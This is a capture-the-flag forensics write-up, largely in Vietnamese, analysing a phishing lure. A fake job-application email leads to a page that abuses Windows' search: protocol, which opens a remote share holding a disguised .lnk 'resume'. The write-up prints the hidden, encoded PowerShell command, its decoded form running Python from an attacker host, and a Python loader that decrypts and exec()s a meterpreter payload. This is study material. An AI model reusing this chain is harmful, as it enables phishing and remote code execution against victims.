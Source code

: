 ```yaml
---
title: a new hire

---
```


# a new hire - fake-cv - pdf - malware

## Description

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

----

> written by 9r3y 

## Thought process
Khi unzip file đề bài cho, ta được:
```bash
$ unzip forensics_a_new_hire.zip 
Archive:  forensics_a_new_hire.zip
  inflating: email.eml  
```
Trước tiên nên xem thử đây có đúng là file .eml không:
```bash
$ file email.eml 
email.eml: SMTP mail, Unicode text, UTF-8 text
```
Có vẻ đúng, tiếp đến nội dung bên trong:
```bash
$ cat email.eml 
Return-Path: <elowan81@eldor.ia>
Received: from mail-sor-f41.eldor.ia (mail-sor-f41.eldor.ia [209.85.220.41])
    by mx.eldor.ia (Postfix) with ESMTPS id A1B2C3D4E5F6
    for <work@eldor.ia>; Mon, 01 Jan 2024 12:34:56 -0700 (PDT)
    (version=TLS1.3 cipher=TLS_AES_256_GCM_SHA384 bits=256/256)
Received: from [192.168.1.100] (customer-pool-192-168-1-100.eldor.ia [192.168.1.100])
    by mail-sor-f41.eldor.ia with ESMTPSA id F6E5D4C3B2A1
    for <work@eldor.ia>; Mon, 01 Jan 2024 12:34:55 -0700 (PDT)
    (version=TLS1.2 cipher=ECDHE-RSA-AES128-GCM-SHA256 bits=128)
Authentication-Results: mx.eldor.ia;
    dkim=pass header.d=eldor.ia header.s=default header.b="3nw7H9qL1vXf5T8sK2zY6pB4rQ0eC7uM";
    spf=pass (mx.eldor.ia: domain of elowan81@eldor.ia designates 209.85.220.41 as permitted sender) smtp.mailfrom=elowan81@eldor.ia;
    dmarc=pass (p=quarantine sp=reject) header.from=eldor.ia
DKIM-Signature: v=1; a=rsa-sha256; c=relaxed/relaxed;
    d=eldor.ia; s=default; t=1704123295;
    h=From:To:Subject:Date:Message-ID:MIME-Version:Content-Type;
    bh=Qm6qK81lr9XH/FGV5tS2kD3pW4aI7m2xZv9d1kE6cT8y=;
    b=V8pPz1n+R2tW4yZ6aB8cD0eF2gH4iJ6kL8mN0oP2qR4sT6uV8wX0yZ2aB4cD6eF8
     gH0iJ2kL4mN6oP8qR0sT2uV4wX6yZ8aB0cD2eF4gH6iJ8kL0mN2oP4qR6sT8uV0wX2yZ4;
Received-SPF: pass (mx.eldor.ia: domain of elowan81@eldor.ia designates 209.85.220.41 as permitted sender) client-ip=209.85.220.41;
ARC-Authentication-Results: i=1; mx.eldor.ia;
    dkim=pass header.d=eldor.ia header.s=default header.b="3nw7H9qL1vXf5T8sK2zY6pB4rQ0eC7uM";
    spf=pass smtp.mailfrom=elowan81@eldor.ia;
    dmarc=pass (p=quarantine sp=reject) header.from=eldor.ia
ARC-Seal: i=1; a=rsa-sha256; t=1704123295; cv=none;
    d=eldor.ia; s=arc20240101;
    b=n8U2w3v1y7Z4x6T9r5q0p3o1l7m6k2j8i4h1g3f5d7s9a0b2c4e6r8t0y5u3w1x2
     a9b7c5d3e1f0g2h4i6j8k0l2m4n6o8p0q2r4s6t8u0v2w4x6y8z0A2B4C6D8E0F2G4;
ARC-Message-Signature: i=1; a=rsa-sha256; c=relaxed/relaxed;
    d=eldor.ia; s=arc20240101;
    h=From:To:Subject:Date:Message-ID:MIME-Version:Content-Type;
    bh=Qm6qK81lr9XH/FGV5tS2kD3pW4aI7m2xZv9d1kE6cT8y=;
    b=k4n5o6p7q8r9s0t1u2v3w4x5y6z7A8B9C0D1E2F3G4H5I6J7K8L9M0N1O2P3Q4R5
     S6T7U8V9W0X1Y2Z3a4b5c6d7e8f9g0h1i2j3k4l5m6n7o8p9q0r1s2t3u4v5w6x7y8;
Message-ID: <20240101123456.1234567890@mail-sor-f41.eldor.ia>
From: "Elowan" <elowan81@eldor.ia>
To: "Work" <work@eldor.ia>
Subject: Job Application - Resume Review 
Date: Mon, 01 Jan 2024 12:34:56 -0700
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 7bit

Hello Work Team,

I hope this email finds you well. We have received a new application for the open position, and we wanted to bring it to your attention.

The applicant, Lord Malakar, has an extensive background in 

... //social engineering content

You can review his resume here:
`storage.microsoftcloudservices.com:[PORT]/index.php`

Please let us know if you would like to proceed with the next steps in the hiring process.

Best regards,
Elowan

PS: Make sure you replace the '[PORT]' with your instance's port. Additionally, make sure that any hostnames that are found point to your instance's IP address!
```
Đây là một phishing email prompt nạn nhân truy cập vào `storage.microsoftcloudservices.com:[PORT]/index.php` - trong đó "storage.microsoftcloudservices.com" thực chất là một địa chỉ mạo danh microsoft.

Khi dùng IP address & port cung cấp bởi challenge để truy cập vào ``[PORT]/index.php`` trong email, ta được đưa đến 1 trang web mà khi inspect javascript của web, tiếp tục nhận được 1 địa chỉ mới: 

```bash
$ curl 94.237.52.195:57937/index.php
Setup data recorded.
<!DOCTYPE html>
<html>
<head>
  <style>
    body, html {
...
    function getResume() { 
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
  </script>
</body>
</html>
```
Khi mở [PORT]/index.php trên browser, một trang web như này sẽ hiển thị: 
![](http://note.bksec.vn/pad/uploads/d1386a0b-1a7c-404d-9380-f1cf2a8b4ce3.png)
Nút "View Full Resume" có chứa function `getResume()` mà nội dung thực chất là:
* Sử dụng cửa sổ `window.location.href` của browser để redirect đến URL `search:displayname=Downloads&subquery=\\storage.microsoftcloudservices.com@PORT\3fe1690d955e8fd2a0b282501570e1f4\resumes\` 
* protocol `search:` sẽ launch [Microsoft's Search Protocol](https://learn.microsoft.com/en-us/windows/win32/shell/search-protocol) và prompt nạn nhân chấp nhận mở Windows Explorer -> folder "Downloads" và hiển thị các file trong folder "storage.microsoftcloudservices.com@PORT\3fe1690d955e8fd2a0b282501570e1f4\resumes\":
![](http://note.bksec.vn/pad/uploads/2d7b7e06-2869-45c3-bf46-d82d6f085a63.png)

Trong folder này chứa file `Resume.pdf.lnk`. Inspect hex của file này:
```bash
$ xxd 'Resume.pdf .lnk.download' 
...
00000160: 0000 0014 0043 3a5c 5769 6e64 6f77 735c  .....C:\Windows\
00000170: 5379 7374 656d 3332 5cdb 032f 6320 706f  System32\../c po
00000180: 7765 7273 6865 6c6c 2e65 7865 202d 5720  wershell.exe -W 
00000190: 4869 6464 656e 202d 6e6f 7020 2d65 7020  Hidden -nop -ep 
000001a0: 6279 7061 7373 202d 4e6f 4578 6974 202d  bypass -NoExit -
000001b0: 4520 5777 4254 4148 6b41 6377 4230 4147  E WwBTAHkAcwB0AG
...
000001c0: 5541 6251 4175 4145 5141 6151 4268               AAeQA=....
```
Có chứa một PowerShell command với những flag đáng ngờ:
* -W Hidden (-WindowStyle Hidden): chạy PowerShell trong một cửa sổ ẩn
* -ep bypass (-ExecutionPolicy Bypass)
* -NoExit: giữ PowerShell session này hoạt động
* -E (-EncodedCommand)
-> File pdf shorcut này có chứa một PowerShell command bao gồm mã hóa base64.
Sau khi decode đoạn mã hóa:
```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:12345/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf')
\\storage.microsoftcloudservices.com@12345\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@12345\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```
Command này thực hiện:
Trong folder share: 
* Mở file `resume_official.pdf` bằng Microsoft Edge
* chạy `client.py` bằng Python version storage.microsoftcloudservices.com@12345\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe -> nếu nạn nhân không tải Python trên máy mình thì script "client.py" vẫn đảm bảo được chạy.

Inspect nội dung trong `client.py`: 
```python
import base64
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
data = base64.b64decode("c97FeXRj6jeG...(redacted)")
meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])
exec(__import__('zlib').decompress(meterpreter_data)[0])
```
Sau khi decode đoạn key, ta được flag:
`HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`